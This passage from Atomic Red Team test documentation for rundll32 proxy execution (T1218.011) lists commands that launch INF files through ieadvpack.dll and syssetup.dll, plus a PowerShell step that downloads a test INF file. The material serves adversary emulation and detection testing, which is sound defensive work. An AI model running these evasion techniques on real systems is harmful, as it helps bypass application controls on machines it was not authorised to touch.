#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe ieadvpack.dll,LaunchINFSection "#{inf_to_execute}",DefaultInstall_SingleUser,1,
```

#### Dependencies: Run with `powershell`!

##### Description: Inf file must exist on disk at specified location ("#{inf_to_execute}")

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>

## Atomic Test #6 - Rundll32 syssetup.dll Execution

Test execution of a command using rundll32.exe with syssetup.dll. Upon execution, a window saying "installation failed" will be opened

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Syssetup.yml

**Supported Platforms:** Windows

**auto_generated_guid:** 41fa324a-3946-401e-bbdd-d7991c628125

#### Inputs:

| Name           | Description                | Type   | Default Value                                                              |
| -------------- | -------------------------- | ------ | -------------------------------------------------------------------------- |
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011_DefaultInstall.inf |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 "#{inf_to_execute}"
```

#### Dependencies: Run with `powershell`!

##### Description: Inf file must exist on disk at specified location ("#{inf_to_execute}")

##### Check Prereq Commands:
